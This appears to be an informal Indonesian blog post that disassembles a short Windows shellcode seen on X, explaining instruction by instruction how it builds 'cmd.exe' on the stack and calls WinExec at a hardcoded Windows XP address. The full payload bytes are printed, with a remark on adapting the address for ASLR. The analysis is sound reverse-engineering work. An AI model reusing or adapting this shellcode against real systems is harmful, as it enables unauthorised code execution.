

Analisis shellcode di tweet platform X
TLDR;
Intinya cuma analisis biasa cok, lesgo
Nemu sebuah postingan di twitter alias X, menarik, apa? berupa shellcode

Code:
"\xb8\xff\xef\xff\xff\xf7\xd0" "\x2b\xe0\x55\x8b\xec\x33\xff" "\x57\x83\xec\x04\xc6\x45\xf8" "\x63\xc6\x45\xf9\x6d\xc6\x45" "\xfa\x64\xc6\x45\xfb\x2e\xc6" "\x45\xfc\x65\xc6\x45\xfd\x78" "\xc6\x45\xfe\x65\x8d\x45\xf8" "\x50\xbb\xc7\x93\xbf\x77\xff" "\xd3"
Analisis
- Konversi ke Instruksi Assembly
- Analisis Tiap Instruksi
- Kesimpulan
Shellcode ini berbentuk bytecode, sehingga kita perlu mendisassembling-nya menjadi kode assembly yang dapat dibaca.
Menggunakan alat seperti ndisasm atau objdump -D, kita bisa mendapatkan instruksi assembly-nya:
b8 ffefffff mov eax, 0xffffefff f7 d0 not eax 2b e0 sub esp, eax 55 push ebp 8b ec mov ebp, esp 33 ff xor edi, edi 57 push edi 83 ec 04 sub esp, 4 c6 45 f8 63 mov byte [ebp-8], 'c' c6 45 f9 6d mov byte [ebp-7], 'm' c6 45 fa 64 mov byte [ebp-6], 'd' c6 45 fb 2e mov byte [ebp-5], '.' c6 45 fc 65 mov byte [ebp-4], 'e' c6 45 fd 78 mov byte [ebp-3], 'x' c6 45 fe 65 mov byte [ebp-2], 'e' 8d 45 f8 lea eax, [ebp-8] 50 push eax bb c7 93 bf 77 mov ebx, 0x77bf93c7 ff d3 call ebx
Setup dan Persiapan Stack
b8 ffefffff mov eax, 0xffffefff f7 d0 not eax 2b e0 sub esp, eax
Menghitung alamat tertentu dalam stack.
Menyiapkan Frame Stack
55 push ebp 8b ec mov ebp, esp
Menyimpan ebp dan mengatur ebp sebagai pointer stack frame.
Menyiapkan String "cmd.exe" di Stack
c6 45 f8 63 mov byte [ebp-8], 'c' c6 45 f9 6d mov byte [ebp-7], 'm' c6 45 fa 64 mov byte [ebp-6], 'd' c6 45 fb 2e mov byte [ebp-5], '.' c6 45 fc 65 mov byte [ebp-4], 'e' c6 45 fd 78 mov byte [ebp-3], 'x' c6 45 fe 65 mov byte [ebp-2], 'e'
String "cmd.exe" dimasukkan ke dalam stack.
Mengambil Alamat String
8d 45 f8 lea eax, [ebp-8] 50 push eax
Mengambil alamat "cmd.exe" dan meletakkannya di stack.
Menjalankan WinExec
bb c7 93 bf 77 mov ebx, 0x77bf93c7 ff d3 call ebx
EBX diisi dengan alamat fungsi API Windows (WinExec).
call ebx memanggil WinExec("cmd.exe").
Shellcode ini:
- Menggunakan API WinExec di Windows untuk menjalankan "cmd.exe".
- Ini adalah payload yang digunakan untuk membuka Command Prompt (cmd.exe).
- Alamat 0x77bf93c7 adalah alamat WinExec pada beberapa versi Windows XP.
Jika ingin menjalankannya di sistem modern, perlu memperbarui alamat fungsi karena Address Space Layout Randomization (ASLR) akan menyebabkan perubahan alamat memori.
Salam jancok